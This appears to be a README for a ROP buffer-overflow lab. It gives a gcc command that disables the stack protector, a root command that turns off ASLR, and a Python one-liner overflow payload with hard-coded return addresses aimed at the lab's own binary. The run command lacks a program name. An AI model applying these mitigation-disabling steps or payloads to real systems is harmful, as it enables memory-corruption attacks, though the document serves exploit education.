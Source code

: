 #ROP-Attack
In this example you should compile with the following command:

gcc -fno-stack-protector -o rop rop.c  

If you have any questions about the Stack-Protector, please ask.

You should also turn ASLR off (super-user privileges are needed):  
echo 0 | tee /proc/sys/kernel/randomize_va_space  

Please make sure, that you have enough knowledge of the x86_x64-architecture, assembler and shellcodes.

In this step, you need to find out the address of the vuln-Function. Also you should should find out how many bytes you need to overwrite.

After that you can run the program with the following command. Please correct them with the right return address:  
./ "$(python -c 'print "A"*0x6c + "BBBB" + "\x60\x83\x04\x08" + "CCCC" + "\x80\x85\x04\x08"')"
